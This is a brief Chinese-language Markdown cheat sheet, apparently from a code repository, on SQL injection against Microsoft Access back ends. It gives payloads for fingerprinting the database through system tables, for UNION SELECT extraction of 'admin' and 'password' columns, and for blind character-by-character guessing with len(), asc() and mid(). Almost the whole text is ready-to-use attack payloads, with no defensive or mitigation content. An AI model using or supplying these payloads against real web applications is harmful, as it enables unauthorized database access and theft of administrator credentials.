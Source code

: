 # ACCESS注入
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 判断数据库类型
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;代码查看:
```sql
    sysobjects 是SQL , msysobjects 是ACCESS,前提是允许访问系统表
    and (select count(*) from sysobjects)>0
    and (select count(*) from msysobjects)>0
    
    SQLServer: sysobjects页面正常，msysobject页面不正常
    ACCESS: sysobjects和加msysobjects的SQL语句后，网页显示都不正常
            msysobject后的网页显示正常

```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 联合查询法

```sql
    常规判断注入点，查询列数，Access只有一个库
    Order by NUM  代表查询的列名的数目有NUM个
    查表: UNION SELECT num,num+1... from admin
    查数据: UNION SELECT 1,admin,3,password from admin
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 逐字猜解法

```sql
    表名,列名可以搜索常见Access表列命名即可
    
    查表：and exists (select * from 表名)
    查列：and exists (select 列名 from 表名)
    查数据：1.确定长度 2.确定asc数据(asc编码)
           1.and (select top 1 len(列名) from admin)=5  //=换成<=5也成立，下同
           2.and (select top 1 asc(mid(列名,位数,1)) from admin)=97
```





